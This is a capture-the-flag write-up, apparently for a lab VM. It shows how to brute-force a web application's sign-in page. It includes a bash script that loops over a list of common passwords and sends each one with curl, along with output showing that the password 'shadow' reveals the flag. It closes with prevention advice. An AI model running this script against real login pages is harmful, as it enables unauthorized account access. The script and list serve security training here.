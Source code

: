 # Frist Step

After launching your vm and setting it up, u should visit the http://10.12.180.85:80, it's normal to try sign in, but u don't have even the username or the password, now the idea here is brute force attack on the web application to discover a valid password.

# How to do that

I choose one of the most common username in the internet "shadow" and try to log with and testing some of the common passwords too like 
```
1234 baseball iloveyou trustno1 sunshine princess football welcome shadow superman michael ninja
```
the script is:

```bash
#!/bin/bash

passwords=(123456 password 123456789 12345678 12345 1234567 admin 123123 qwerty abc123 letmein monkey 111111 password1 qwerty123 dragon 1234 baseball iloveyou trustno1 sunshine princess football welcome shadow superman michael ninja mustang jessica charlie ashley bailey passw0rd master love hello freedom whatever nicole jordan cameron secret summer 1q2w3e4r zxcvbnm starwars computer taylor startrek)

for password in "${passwords[@]}"
do
    echo "Trying password: $password"
    
    curl -X GET "http://10.12.180.85/?page=signin&username=shadow&password=$password&Login=Login#" | grep flag
done
```
after run it the result looks like that:

```bash
~ bash test.sh
Trying password: 123456
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1988    0  1988    0     0    993      0 --:--:--  0:00:02 --:--:--   993
Trying password: passwod
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1988    0  1988    0     0    991      0 --:--:--  0:00:02 --:--:--   992
Trying password: 3456
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1988    0  1988    0     0    992      0 --:--:--  0:00:02 --:--:--   993
Trying password: welcome
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1988    0  1988    0     0    993      0 --:--:--  0:00:02 --:--:--   993
Trying password: shadow
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2084    0  2084    0     0  1529k      0 --:--:-- --:--:-- --:--:-- 2035k
<center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>				</div>

Trying password: football
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1988    0  1988    0     0    992      0 --:--:--  0:00:02 --:--:--   993
```

And here as u noticed the right password that give you the flag is:
```
shadow
```
so the username is "shadow" and password is also "shadow"


##  Prevention


Avoid the use of leaked usernames and passwords or that includes related data to you or your website

Use of Captcha

Limit the number of attempts to login 

Block login attempts coming from certain IPs

Use strong password policies